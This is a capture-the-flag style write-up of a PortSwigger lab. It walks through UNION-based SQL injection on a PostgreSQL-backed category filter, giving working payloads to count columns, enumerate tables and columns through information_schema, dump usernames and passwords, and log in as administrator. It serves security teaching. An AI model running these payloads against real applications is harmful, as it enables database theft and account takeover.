



# 🎯 SQL Injection: Listing Database Contents on Non-Oracle Databases

*Write-Up by Aditya Bhatt | UNION-Based SQLi | Database Enumeration | BurpSuite*

---

# ⚡ TL;DR

A UNION-based SQL injection in the product category filter lets us:

* Detect column count
* Enumerate all tables via `information_schema`
* Identify the users table (`users_jzxhga`)
* Extract credential columns (`username_bwgqeq`, `password_wziyaf`)
* Dump all usernames + passwords
* Log in as **administrator**

Simple UNION SQLi → Full DB compromise → Admin access 🔥


---

# 📝 Brief Introduction

This PortSwigger lab simulates a real-world SQL injection scenario where the **product category filter** is vulnerable to injection. Because the application reflects SQL results directly in the response, it becomes trivial to perform **UNION-based enumeration**, extract sensitive data from backend tables, and ultimately compromise the administrator account.

In this write-up, I walk through each step clearly—from confirming the vulnerability to dumping credentials—paired with screenshots stored in the `SQLi_` directory.

---

# 🧪 Step-by-Step PoC Walkthrough

## **1️⃣ Open the Lab and Select Any Category**

I started by selecting a random filter like **Lifestyle** to capture the request.

📸 **Screenshot:**


## **2️⃣ Inject a Basic UNION Payload**

Classic 2-column test payload:

```
'+UNION+SELECT+'a','b'--
```

Confirmed:
✔ 2 columns
✔ Both accept text

📸 **Screenshot:**


## **3️⃣ Enumerate All Tables**

Payload:

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

Among tons of PostgreSQL system tables, only this one stood out:

👉 **users_jzxhga**

📸 **Screenshot:**


## **4️⃣ Enumerate Columns from users_jzxhga**

Payload:

```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jzxhga'--
```

Columns found:

* `password_wziyaf`
* `username_bwgqeq`
* `email`

📸 **Screenshot:**


## **5️⃣ Dump Usernames & Passwords**

Payload:

```
'+UNION+SELECT+username_bwgqeq,+password_wziyaf+FROM+users_jzxhga--
```

### 🧩 Clean Credential Dump

| Username      | Password             |
| ------------- | -------------------- |
| carlos        | sd5se50c9fx3g5eojqdt |
| administrator | 03leyby3ii1rf59z3knx |
| wiener        | innln1ibjknxlbt77zq0 |

📸 **Screenshot:**


## **6️⃣ Log In as Administrator**

Used creds:

**Username:** `administrator`
**Password:** `03leyby3ii1rf59z3knx`

Successfully logged in. 🔥

📸 **Screenshot:**


## **7️⃣ 🏁 Lab Solved!**

Success banner confirmed.

📸 **Screenshot:**


---

# 🧠 Key Takeaways

* UNION SQLi + reflected output = **instant data extraction**
* Always check column count before attacking
* `information_schema` = your best enumeration toolkit
* Random suffix table names (like `users_jzxhga`) are typical in PortSwigger labs
* With direct text output, no need for casting, hexing, or WAF bypasses

---

# 👋 Final Thoughts

Thanks for sticking through the PoC! 💫
This lab is a perfect example of why UNION-based SQLi still remains one of the cleanest exploitation paths for pulling real data straight out of backend databases.

Until the next lab — keep hacking smart.
**— Aditya Bhatt** 🔥😎

---
